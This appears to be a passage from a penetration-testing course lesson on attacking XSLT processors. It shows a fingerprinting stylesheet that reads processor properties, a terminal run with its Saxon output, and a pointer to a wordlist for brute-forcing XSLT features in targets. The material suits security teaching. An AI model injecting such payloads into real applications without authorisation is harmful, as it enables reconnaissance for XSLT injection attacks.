 Code: xml

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

Attacking XSLT

```shell-session
AIceBear@htb[/htb]$ saxonb-xslt -xsl:fingerprinting.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of fingerprinting.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>
 Version: 2.0<br/>
 Vendor: SAXON 9.1.0.8 from Saxonica<br/>
 Vendor URL: http://www.saxonica.com/<br/>
 Product Name: SAXON<br/>
 Product Version: 9.1.0.8<br/>
 Is Schema Aware ?: no<br/>
 Supports Serialization: <br/>
 Supports Backwards Compatibility: <br/>
```

We can also use the following [wordlist](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/xslt.txt) for brute-forcing functionality available in target applications.
